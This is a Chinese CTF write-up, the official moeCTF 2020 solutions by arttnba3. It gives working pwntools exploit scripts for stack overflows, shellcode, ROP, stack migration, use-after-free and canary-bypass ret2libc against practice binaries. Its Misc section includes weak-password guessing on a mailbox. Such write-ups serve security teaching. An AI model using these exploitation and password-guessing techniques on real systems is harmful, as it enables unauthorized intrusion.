<!--yml
category: 未分类
date: 2022-04-26 14:33:07
-->

# 【CTF题解NO.00003】moeCTF 2020 - official write up by arttnba3_arttnba3的博客-CSDN博客

> 来源：[https://blog.csdn.net/arttnba3/article/details/109847659](https://blog.csdn.net/arttnba3/article/details/109847659)

# 0x00.绪论

很荣幸能和RX大哥以及诸位带师傅共同出了moeCTF2020的题目，也希望做题的各位能够获得快乐XD

闲话不多说，点开即可查看题解👇

> 注：原题皆可在本页面直接下载
> 注2：CSDN缓存外链图片的机制以及markdown编辑器都十分稀烂，建议到我的github pages上的[博客](https://archive.next.arttnba3.cn/2020/09/07/%E3%80%90CTF%E9%A2%98%E8%A7%A3-0x03%E3%80%91moeCTF2020-write-up-by-arttnb3/)进行阅读

# 0x01.Pwn

## Pwn从入门到入狱

> 注：0基础新人还请仔细阅读这一份文件

在文件末尾可以看到白给的flag



```
moectf{PWN_T0_0WN!} 
```

## Welcome

nc，提示`Please fill me up`，考虑到栈溢出，直接输出一长串随机字符串获得flag



```
moectf{W3lc0m3_t0_tH3_w0r1d_0f_PWN!} 
```

## Baby Pwn - ret2text

[点击下载-pwn1](/download/moectf2020/pwn/baby_pwn/pwn1%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

在IDA里我们很容易看得到存在字符串溢出漏洞



同样的，我们可以看到在`.text`段存在可以被利用的`backdoor()`函数，易知该题可通过栈溢出覆写返回地址至`backdoor()`函数以getshell，是为一道很经典的ret2text



相对于rbp的偏移量为0x40+8 = 72

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-v8bLvyMW-1605852471151)(https://i.loli.net/2020/08/06/DqfQil7cmT6xIrS.png)]


故构造如下payload

```
from pwn import *
p = process('pwn1')
pl = 'A'*72 + p64(0x400676)
p.recv()
p.sendline(pl)
p.interactive() 
```

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-8umNN50M-1605852471153)(https://i.loli.net/2020/08/01/JplCRSkxYLyEDKO.png)]

```
moectf{a0e65c41-fe8a-4db9-a070-f6593a5858c3} 
```

## Baby Shellcode - shellcode

[点击下载-baby_shellcode](/download/moectf2020/pwn/baby_shellcode/baby_shellcode%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

拖进IDA可以看到这道题本地只有一个输出语句和一个输入语句



我们可以看到程序读入我们的输入后直接尝试将我们的输入作为代码来执行，因此我们直接构造getshell的shellcode输入即可

使用**asm(shellcraft.sh())**可以直接获取一段shellcode

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-zDOO4UZe-1605852471154)(https://i.loli.net/2020/09/15/kB9NEsTiAfwXSnz.png)]

```
moectf{D0_yoU_kN0w_she11c0d3?} 
```

## unusual shellcode - Alphanumeric Shellcode

[点击下载-unusual](/download/moectf2020/pwn/unusual/unusual%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

首先是惯例的`checksec`

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-e7AkMaN6-1605852471155)(https://i.loli.net/2020/10/08/cdTow3X5p6WUAHk.png)]

除了地址随机化以外其他的都开满了

拖入IDA进行分析



v7是一个函数指针，并被分配到了`0x1000`大小的内存空间

程序会从输入流逐字节读入最大4096个字节写入到v7所指向的空间上，且限制输入仅能为字母或数字否则终止输入

输入结束后尝试执行函数指针v7

那么我们直接输入一段shellcode即可getshell

但是限制了输入只能是数字和字母，常见的shellcode都包含一些其他字符

这个时候我们可以尝试百度XD



得知一种叫做**Alphanumeric Shellcode**的东西www

具体参见：https://www.freebuf.com/articles/system/232280.html

首先从GitHub上随便找一个轮子

```
$ git clone https://github.com/TaQini/alpha3.git 
```

然后编写生成我们的shellcode的脚本

```
 from pwn import *
context.arch='amd64'
sc = shellcraft.sh()
print asm(sc) 
```

输出重定向至文本

```
$ python sc.py > sc 
```

使用轮子生成alphanumeric shellcode

```
$ python ./ALPHA3.py x64 ascii mixedcase rax --input="sc" 
```



```
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a071N00 
```

连接服务端，发送我们的alphanumeric shellcode，成功getshell

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-EqOPdPUi-1605852471157)(https://i.loli.net/2020/08/10/b5Ru7PmDZasA1jI.png)]

得到flag

```
moectf{Y0u_kn3w_tH3_a1ph4num3r1C_she1lc0de!} 
```

## ROP1 - ret2text

[点击下载-rop1](/download/moectf2020/pwn/rop1/rop1%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

ROP即为**Return-Oriented Programming ——返回导向编程**， 是一种可以用来绕过现代操作系统的各种通用防御（比如内存不可执行和代码签名等）的高级的内存攻击技术。

> 其主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。**所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。
> 
> [ctf-wifi：Basic ROP](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop-zh/)

首先在Linux下使用`checksec`指令分析，发现其开启了**栈不可执行保护**



将程序拖入IDA分析，发现存在`gets`函数，很明显存在栈溢出



我们尝试将断点下在`call _gets`，即`0x40087f`的地以计算偏移量



```
$ gdb
$ file rop1
$ b *0x40087f
$ r 
```

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-c4FSXCcr-1605852471160)(https://i.loli.net/2020/08/06/oQREW8CdHIU59ai.png)]

由`lea rax, [rbp-0x80]`我们可以看到该字符串为基于rbp的索引，故其相对于返回地址的偏移即为`0x80+8`，也就是**128个字节再加上8字节的rbp**，之后就是**函数的返回地址**

因此我们构造的payload基础模型应当是：

```
target_addr = p64(addr_of_target)
payload = b'A'*128 + target_addr 
```

然后我们就应该开始寻找需要用的**gadget（程序小片段）**了

一般来说只要找到`system("/bin/sh")`就可以getshell了

然而我们不难看出，程序中虽然存在着system函数，但是却是`system("eqqie")`。。。



因此很明显我们不能直接返回到这个函数的地址上

但是这也告诉我们有`system函数`的gadget，接下来只需要再找到`/bin/sh`字符串就可以凑出`system('/bin/sh')`

我们很容易在`.data`段找到`"/bin/sh"`

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-J3nlrhnp-1605852471161)(https://i.loli.net/2020/08/06/8jlm6eZaWA1uMx5.png)]



与32位程序所不同的是，64位程序参数**首先通过rdi,rsi,rdx,rcx,r8,r9这六个寄存器进行传递**

那么我们只需要先在`rdi寄存器`内写入`"/bin/sh"`的地址再调用system函数即可getshell

但是我们直接找似乎找不到`pop rdi`

别慌www，在IDA内我们可以找到一段指令是

```
pop r15 
```



按下`D`展开变成数据

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-MweYCMDQ-1605852471163)(https://i.loli.net/2020/08/06/XFxkV5w7uSKMmRG.png)]

再按下`C`变成指令



得到指令：

```
pop rdi
retn 
```

于是我们就成功得到了**改变rdi寄存器的gadget的地址**

接下来我们就可以构造payload了

```
from pwn import *
p = process('rop1')

pop_rdi = p64(0x400933)
sh_addr = p64(0x601070)
call_sys = p64(0x4007df)

payload = b'A'*136 + pop_rdi + sh_addr + call_sys

p.recv()
p.sendline(payload)
p.interactive() 
```

连接服务器，使用我们的payload来getshell

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-8cpZDjgz-1605852471165)(https://i.loli.net/2020/08/06/yPLIicR9daTVWB8.png)]

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-ZIW106n1-1605852471167)(https://i.loli.net/2020/08/06/1fT5rBh23v6sayX.png)]

得到flag

```
moectf{67d14388-9052-4182-869c-5e5f0cdac4e5} 
```

> 注：也可以使用工具`ROPgadget`来寻找gadget
> 
> Linux下，上面寻找gadget的步骤也可以如下：
> 
> ```
> $ ROPgadget --binary rop1 --string '/bin/sh' 
> ```
> 
> 
> 
> ```
> $ ROPgadget --binary rop1 --only 'pop|ret' 
> ```
> 
> [外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-npDmpaTd-1605852471170)(https://i.loli.net/2020/08/06/tLToxVk8Cz19ARP.png)]

> 参考资料：https://www.cnblogs.com/ichunqiu/p/9288935.html

## ROP2 - ret2text

[点击下载-rop2](/download/moectf2020/pwn/rop2/rop2%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

首先使用`checksec`指令，发现其存在**栈不可执行保护**


拖进IDA，我们可以看到这一题和ROP1基本上没有太大的不同，都是直接存在gets函数的溢出漏洞

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-rWJKzO9R-1605852471171)(https://i.loli.net/2020/08/06/CYwqLfMRsyBxHK1.png)]

以及`system`函数的gadget和`pop rdi`的gadget

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-PO0wXuoM-1605852471172)(https://i.loli.net/2020/08/06/tHY6GJM3NWE8jUk.png)]



不同的是，这一次并没有给我们预留下可以利用的`"/bin/sh"`字符串

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-eTHdqJ9u-1605852471173)(https://i.loli.net/2020/08/06/BsmoxyjT8bOnvuh.png)]

那么我们是否可以手动读入`/bin/sh`字符串呢？答案是肯定的

首先存在`gets()`函数可以读入字符串

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-Ny39nbnH-1605852471174)(https://i.loli.net/2020/08/09/vxIF8c1b4ATqtQW.png)]

其次我们在IDA中按下`CTRL + S`，可以看到存在一个可以供我们读写的`.bss`段

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-ENHutBRb-1605852471174)(https://i.loli.net/2020/08/09/hdC8S9FJGPBUbQl.png)]

那么我们只需要将`/bin/sh`字符串读到这个段上，再将之作为`system`函数的参数即可`getshell`

那么我们可以构造payload如下：

```
from pwn import *

e = ELF('rop2')
gets_addr = p64(e.symbols['gets'])
sys_addr = p64(e.symbols['system'])
pop_rdi = p64(0x400933)
bss_addr = p64(0x601080)

payload = b'A'*136 + pop_rdi + bss_addr + gets_addr + pop_rdi + bss_addr + sys_addr

p = process('rop2')
p.sendline(payload)
p.sendline('/bin/sh')
p.interactive() 
```

连接服务器，发送我们的payload，即可getshell

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-CYIrnW68-1605852471175)(https://i.loli.net/2020/08/09/fIoZyxE7F5biUQz.png)]

得到flag：

```
moectf{d44bc3cb-471b-4906-822b-ea5cb32c4acb} 
```

> Tips:
> 
> pwntools里的ELF模块可以帮助我们快速找到一些需要的地址
> 
> ```
>  from pwn import *
> e = ELF('file_name')	
> 
> e.symbols['func_name']	
> 
> e.bss()					
> 						
> 
> e.plt['func_name']		
> 						
> 						
>         
> e.got['func_name'] 
> ```

## baby migration - stack migration + ret2shellcode

[点击下载-baby_migration](/download/moectf2020/pwn/baby_migration/baby_migration)

首先是惯例的`checksec`

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-VRYytlMC-1605852471176)(https://i.loli.net/2020/08/24/4HjdZqlBKp1fIrG.png)]

四舍五入保护全关

拖入IDA进行分析



我们可以看到存在栈溢出，可供溢出字节为`66-0x30=18`个字节，也就是说基本上只够覆盖rbp（8字节）+返回地址（8字节），空间十分拥挤，同时程序里也没有能够直接利用的gadget

但是我们可以观察到在`bss段`有极大的可读写空间



故考虑**栈迁移**，将栈迁移到bss段再放上我们的shellcode

构造exp如下：

```
from pwn import *

offset = 0x30
bss = 0x404060
back_to_gets = 0x4011c8

sc = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload1 = b'A'*offset + p64(bss+500) + p64(back_to_gets)
payload2 = sc + b'A'*(offset - len(sc)) + p64(bss+500) + p64(bss+500-offset)

p = process('./baby_migration')
p.recv()
p.sendline(payload1)
sleep(1)
p.sendline(payload2)
p.interactive() 
```

运行脚本即得flag

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-6Uwy0UFA-1605852471179)(https://i.loli.net/2020/08/24/gY1Fxk7GERTjSBr.png)]

```
moectf{5tack_m1gr@ti0n_1s_e4sy!} 
```

> 以下内容来自[arttnba3.cn](https://arttnba3.cn)：
> 
> 如何将一个栈劫持到别的地方？栈迁移的运行原理究竟是？
> 
> 做了那么多的pwn题（~~指moeCTF2020刚刚开始做~~（👈把这个家伙拖出去🔨了）），我们都知道在构造栈溢出的rop链时不仅要算上栈原本所分配的空间的大小，还要算上`ebp/rbp`寄存器所占用的4/8个字节，之后才到函数的返回地址，这是因为在一个函数启动时，会先将ebp/rbp的值压入栈中，之后将指向栈顶的esp/rsp寄存器的值赋给ebp/rbp寄存器，随后通过ebp/rbp寄存器来实现对栈的访问
> 
> 
> 
> 
> 
> 同样的，有压栈同样就会有出栈来恢复ebp/rbp与esp/rsp的值，我们都知道在函数运行到末尾时，会执行`leave`，`retn`两条指令
> 
> 
> 
> 其中`leave`指令便是用来恢复栈帧的指令，它等价于如下指令：
> 
> ```
> ;ebp & esp in 32-bit
> mov rsp, rbp
> pop rbp 
> ```
> 
> 由于**对栈的访问都是通过ebp/rbp进行的**，那么我们不难想到，只要我们在溢出时**覆写掉栈内储存的原ebp/rbp的值**，**在retn指令返回后程序所判定的栈基址其实就变成了我们所覆写上的那个地址**，之后程序在调用栈上的变量的时候其实都是基于我们所覆写上的新的栈基址进行操作的了，相当于把栈劫持到另一个地方，所以又叫**栈劫持**

## Hard shellcode - ret2shellcode

[点击下载-hard_shellcode](/download/moectf2020/pwn/hard_shellcode/hard_shellcode%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

首先是惯例的`checksec`



保护全关，似乎整挺好

不过这题的分值比rop2还要高100分，小心为妙XD

拖入IDA看看

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-kAOQCDmF-1605852471184)(https://i.loli.net/2020/08/09/GdmDsjEnXpBqobO.png)]

我们可以看到，读入0x50个字节，buf大小为0x40，**存在栈溢出**

**但是溢出大小只有0x10个字节，甚至无法放下一段完整的能用以getshell的shellcode，算上覆盖掉RBP的八个字节，返回地址的八个字节后，我们一无所有XD**

还是看看有没有什么可以利用的gadget吧XD

我们不难找到在IDA中直接有一段代码标注着`_gadget`，看得出来这段代码很想被我们利用www（



> 注：找寻可利用的gadget也可以用工具ROPgadget，命令如下：
> 
> ```
> $ ROPgadget --binary hard_shellcode --ropchain 
> ```
> 
> 

我们不难想到，当我们输入完0x50个字节时，程序运行到返回地址返回到某个代码段后，rsp指向返回地址的高一个字节

若是返回至gadget：0x4000ea：

执行push rbp后，**rsp = 原rsp - 8**

执行mov rbp, rsp; sub rsp, 8后， **rsp = 原rsp-16**

执行jmp rsp后**程序会尝试执行rsp上的代码，即原rsp-16位置上的代码**

这个位置便是我们**输入时所覆盖掉的RBP的位置**

那么我们在这个位置上**便有8个字节的空间可以写上我们的shellcode**

同时我们想到，**前面还有64个字节的空间，完全可以装得下一段getshell的shellcode**

我们只需要先在前面写上getshell，**再在8个字节的空间中写入修改rsp的值并再次跳转至rsp即可getshell（rsp与我们的输入的偏移量是可知的）**

故得exp：

```
from pwn import *

context.arch = 'amd64'

sc = asm(shellcraft.sh())
sub_rsp = asm('sub rsp, 64')
jmp_rsp = asm('jmp rsp')

gadget_addr = p64(0x4000ea)

payload = sc + b'A'*(64-len(sc)) + sub_rsp + jmp_rsp + b'A'*(8-len(sub_rsp)-len(jmp_rsp)) + gadget_addr

p = process('hard_shellcode')
p.sendline(payload)
p.interactive() 
```

向服务器发送payload，成功getsgell



得到flag：

```
moectf{Ni_HA0_q1ang_a!} 
```

## easycpp（已下线） - Use After Free

> 注：本题因为一些原因在比赛过程中下线了

[点击下载-easycpp](/download/minil/pwn/easycpp%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)
[点击下载-libc.so.6](/download/minil/pwn/libc.so.6%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

首先是惯例的`checksec`

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-IChdU9zk-1605852471186)(https://i.loli.net/2020/08/09/tpZQ1nE5oaGdsRX.png)]

我们可以看到，和前面几题不同的是这个程序是一个32位的程序

拖入IDA进行分析



用到了一个名为`B`的类，我们先看看这个类都有些啥

IDA中类B有一个构造函数`B()`和一个`print()`函数


类B的构造函数如下：


类B的构造函数首先调用了类A的构造函数，然后将变量_vptr_A设置为一个函数指针

我们不难看到在0x80489E4位置上我们还需要再跳转一次到0x80488F2的位置，这个位置上有一个`B::print()`函数，故可知这是一个**二级函数指针**


[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-PNZ9yCw5-1605852471189)(https://i.loli.net/2020/08/09/7ILSlb95q12Dfny.png)]

我们再来看看类A的构造函数，如下：



类A的构造函数也是将变量`_vptr_A`设置为一个函数指针

位于off_80489F0上的函数为`A::print()`

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-ypRWh444-1605852471189)(https://i.loli.net/2020/08/09/5qF6acIEWUGOvZ7.png)]



接下来是main函数的简单分析：


v3、v4都是一个类型为`类 B`的指针

首先`setvbuf()`函数将程序设置为无缓冲输入

之后创建了一个类B的实例并将地址给到指针v3和v4

之后将该实例内的变量`_vptr_A`的值设为0

之后使用delete释放掉之前分配给v3、v4的内存

之后**从标准输入流读入1024个字节到buf**（或许有操作空间？）

之后调用`strbuf()`函数重新分配一段内存空间并将buf的值拷贝一份（当然最后并没有指针接收这一块内存，那么它会成为野内存吗？）

最后**重新调用v4的函数指针变量所指向的函数**

那么我们在这里就可以发现一个漏洞：

v3、v4所指向的内存空间被释放后v3、v4并没有被设置为NULL，在运行到strdup()函数时若是我们给到buf的输入长度在一定范围内，这一块内存空间会被堆管理器重新分配给strdup()函数，而之后又通过v4再次对这一块内存空间进行调用，很明显存在**UAF（Use After Free）**漏洞

同时我们可以发现存在一个`backdoor()`函数直接调用了`system("/bin/sh")`，可以直接getshell

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-knathcyE-1605852471191)(https://i.loli.net/2020/08/09/dPJUXZ6M9kx8RnN.png)]

故我们只需要覆写掉函数指针所指的函数为backdoor()函数即可getshell

构造二级指针的结构应为

| buf | buf+4 |
| --- | --- |
| 右边那一块的地址 -> | 指向backdoor函数的地址 |

buf的地址如下：



故得exp如下

```
from pwn import *

context.log_level = 'debug'

p = process('easycpp')

backdoor = 0x80487BB
buf = 0x804A0C0

payload = p32(buf + 4) + p32(backdoor)

p.sendline(payload)

p.interactive() 
```

向服务器发送payload，成功getsgell

 

得到flag:

```
moectf{Ev3ryth1ng_c@n_be_cPP!} 
```

> 参考资料：
> 
> [ctf-wikf:Use After Free](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/use_after_free-zh/)

## baby canary - canary + partial overwrite + ret2libc

[点击下载-baby_canary](/download/moectf2020/pwn/baby canary/baby_canary"点击此处下载原题")

[点击下载-libc.so.6](/download/moectf2020/pwn/baby canary/libc.so.6"点击此处下载原题")

首先是惯例的`checksec`

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-tdZFbK2G-1605852471192)(https://i.loli.net/2020/08/29/wtnmcLYru4OTdgs.png)]

除了地址随机化以外都开了，**这也是唯一一道需要我们绕过canary保护的题**

当然，看名字我们就知道这题肯定要考canary（

首先拖入IDA进行分析

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-m1vT0Hjj-1605852471193)(https://i.loli.net/2020/08/29/lAEmSNwFPbVyfop.png)]

唯一的一个可塑的输出点是printf，我们考虑构造长度为`0x4c-0xc+1`的padding**覆写掉canary的最高位字节\x00，这样程序在调用printf函数时便会输出canary的值**

也就是**partial overwrite**

那么我们的第一条payload就出来了：

```
payload1 = b'A'*(0x4c-0xc+1) 
```

之后程序在输出完我们的输入之后还会再输出一些东西，而其中的前三个字节便是**canary的低三位字节**

故我们考虑使用以下代码得到canary：

```
p.send(payload1)
p.recvuntil(payload1)
canary = u32('\x00'+p.recv(3)) 
```

得到了canary的值之后我们就可以尽情地溢出了

同时我们可以发现不存在可以直接getshell的system函数或是/bin/sh字符串

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-kQA79TJr-1605852471194)(https://i.loli.net/2020/08/29/ZN8SXe5KECDAnJI.png)]

题目给出了`libc.so.6`文件，故考虑**ret2libc**，构造rop链先将函数返回至`puts`，输出puts函数的真实地址（储存在got表中），之后计算出libc的基址，再计算出libc中system函数与/bin/sh字符串的真实地址，最后构造rop链执行`system("/bin/sh")`即可getshell

故最终构造exp如下：

```
from pwn import *

p = remote('sec.arttnba3.cn',10003)
e = ELF('./baby_canary')
libc = ELF('./libc.so.6')

puts_got = e.got['puts']
puts_plt = e.plt['puts']

p.recv()
payload1 = b'A'*(0x4c-0xc+1)
p.send(payload1)
p.recvuntil(payload1)
canary = u32(b'\x00'+p.recv(3))
p.recv()

payload2 = b'A'*(0x4c-0xc) + p32(canary) + b'A'*(0xc-4) + p32(0xdeadbeef) + p32(puts_plt)+ p32(e.sym['main']) + p32(puts_got)

p.send(payload2)
p.recvuntil('flag!\n')

puts_addr = p.recv(4)

puts_addr = u32(puts_addr)

libc_base = puts_addr - libc.sym['puts']
sys_addr = libc_base + libc.sym['system']
sh_addr = libc_base + libc.search(b'/bin/sh').__next__()

p.send(payload1)
payload3 = b'A'*(0x4c-0xc) + p32(canary) + b'A'*(0xc-4) + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)
p.send(payload3)
p.interactive() 
```

运行exp，成功getshell

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-iYxblUoE-1605852471195)(https://i.loli.net/2020/08/29/v7Kau1Bop9rckdU.png)]

得到flag

```
moectf{W0w_Y0u_c@n_e5cap3_fr0m_c4nary!} 
```

# 0x02.Misc

## 简 单 的社工题

提示贴吧，我们来到`moectf吧`，发现这样一个帖子



没有额外的信息，于是我们来到发帖人的主页面，发现发帖人只关注了一个人


我们来到这个人的主页面看看


没有收获，我们又查看他所关注的贴吧



从下往上看是：`923431ourmail.`

推测应该是一个邮箱，但是点的后面的域名不清楚

百度ourmail得到`ourmail.cn`，于是我们知道了一个叫做ourmail的东西XD

在ourmail搜索923431@ourmail.cn，果然有


没给密码，推测是弱口令，尝试了几个弱口令得到加群密码`a123456`

进入后发现这样一个邮件：

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-6iSELC2U-1605852471196)(https://i.loli.net/2020/08/09/o6kIlzaSBTD8Vs2.png)]

发帖人叫`/s`，邮件内容是`address: 1O9JFcsUyqQ7T85WXmHH6nQ`，还回了个`a3cj`

/s/address很明显是百度网盘链接的格式

输入`pan.baidu.com/s/1O9JFcsUyqQ7T85WXmHH6nQ`，果然得到了一个分析文件的链接

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-2n65GITx-1605852471198)(https://i.loli.net/2020/08/09/M6dEt8lkYCz3XFm.png)]

我们将`a3cj`作为提取码输入，成功获得文件，下载，解压得如下文本：

```
bW9lY3RmJTdCdzB3X1kwdV9jNG5fZjFuZF9tM19vdVQlMjElN0Q= 
```

比较明显的base64特征，解密，得到flag：

```
moectf{w0w_Y0u_c4n_f1nd_m3_ouT!} 
```

## 不 会 吧 ？ 就 这 ¿

老阴阳人le

图片改后缀zip解压得文本如下

```
不会吧？ 就这¿ 就这¿ 不会吧？ 不会吧？ 就这¿ 不会吧？ 就这¿ 
就这¿ 就这¿ 就这¿ 就这¿ 不会吧？ 不会吧？ 就这¿ 就这¿ 
不会吧？ 就这¿ 不会吧？ 就这¿ 不会吧？ 不会吧？ 不会吧？ 就这¿ 
不会吧？ 不会吧？ 不会吧？ 不会吧？ 不会吧？ 就这¿ 不会吧？ 就这¿ 
不会吧？ 不会吧？ 不会吧？ 就这¿ 不会吧？ 不会吧？ 不会吧？ 就这¿ 
就这¿ 就这¿ 就这¿ 不会吧？ 就这¿ 不会吧？ 不会吧？ 就这¿ 
就这¿ 就这¿ 不会吧？ 就这¿ 不会吧？ 不会吧？ 就这¿ 就这¿ 
就这¿ 就这¿ 不会吧？ 就这¿ 不会吧？ 不会吧？ 不会吧？ 就这¿ 
不会吧？ 不会吧？ 不会吧？ 不会吧？ 不会吧？ 不会吧？ 就这¿ 就这¿ 
不会吧？ 就这¿ 不会吧？ 不会吧？ 就这¿ 不会吧？ 就这¿ 就这¿ 
就这¿ 就这¿ 就这¿ 就这¿ 不会吧？ 不会吧？ 就这¿ 就这¿ 
就这¿ 不会吧？ 不会吧？ 不会吧？ 就这¿ 不会吧？ 不会吧？ 就这¿ 
不会吧？ 就这¿ 就这¿ 就这¿ 不会吧？ 不会吧？ 就这¿ 就这¿ 
不会吧？ 就这¿ 就这¿ 不会吧？ 不会吧？ 不会吧？ 不会吧？ 就这¿ 
不会吧？ 不会吧？ 不会吧？ 不会吧？ 不会吧？ 就这¿ 不会吧？ 就这¿ 
就这¿ 就这¿ 不会吧？ 就这¿ 不会吧？ 不会吧？ 不会吧？ 就这¿ 
就这¿ 就这¿ 就这¿ 不会吧？ 就这¿ 不会吧？ 不会吧？ 就这¿ 
不会吧？ 就这¿ 就这¿ 就这¿ 不会吧？ 不会吧？ 就这¿ 就这¿ 
不会吧？ 不会吧？ 就这¿ 就这¿ 不会吧？ 就这¿ 不会吧？ 就这¿ 
不会吧？ 不会吧？ 不会吧？ 不会吧？ 不会吧？ 不会吧？ 就这¿ 就这¿ 
```

文本中只有`不会吧？`和`就这¿`，推测是二进制

每行长度都是八个词，末尾都是“就这¿”，ASCII码的二进制最高位都是0，故推测是ASCII码逆序

工具人手动转码结果如下：

```
10011010
00001100
10101110
11111010
11101110
00010110
00101100
00101110
11111100
10110100
00001100
01110110
10001100
10011110
11111010
00101110
00010110
10001100
11001010
11111100 
```

逆序后转成数字就是

```
89
48
117
95
119
104
52
116
63
45
48
110
49
121
95
116
104
49
83
63 
```

对照ASCII码表即得flag：

```
moectf{Y0u_wh4t?-0n1y_th1S?} 
```

## A3FXCK

惯例的图片后缀名改zip解压得到这样一个文本文档

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-tnXfIpH2-1605852471200)(https://i.loli.net/2020/10/08/La7GHyJqUgs8Ypk.png)]

开头第一行提示`123456`对应`[]()+!`，而文本中存在`luoq1an`、`arttnba2`、`arttnba3`、`luoqi4n`、`arttnba5`、`arttnba6`，故考虑进行字符串替换

得到如下文本

```
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+